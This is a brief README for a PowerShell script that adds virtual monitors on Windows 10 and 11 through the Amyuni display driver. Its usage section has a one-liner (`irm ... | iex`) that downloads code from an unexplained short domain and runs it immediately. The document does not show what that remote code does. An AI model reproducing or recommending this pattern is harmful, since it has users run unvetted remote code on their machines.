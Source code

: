 # Windows Virtual Monitor

Easily add up to 4 virtual monitors. Automatically re-add virtual monitors on startup.

Tested on windows 10 and 11.

The script uses [Amyuni Technologies](https://www.amyuni.com/) virtual display driver. [Find out more here](https://www.amyuni.com/forum/viewtopic.php?t=3030).

# Usage

Past this into your terminal:

```powershell
$env:s = "windows-virtual-monitor"; irm "w.s.rxlb.cc" | iex
```

# Changelog

## [V1.0] - 06-04-2023

-   First Version
